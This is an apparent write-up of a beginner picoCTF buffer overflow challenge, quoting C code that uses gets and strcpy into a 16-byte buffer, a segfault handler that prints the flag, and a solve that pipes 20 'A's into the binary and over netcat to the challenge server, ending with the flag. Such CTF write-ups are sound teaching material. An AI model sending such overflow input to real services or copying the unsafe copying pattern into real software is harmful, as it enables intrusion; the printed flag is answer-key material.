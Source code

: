 ### Current progress: Done

An unstripped ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

### Explanation
The flag is given when the program received a segfaults:
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
and here's where they attached `sigsegv_handler` to the `SIGSEGV` (segfault):
```
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net [port]`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`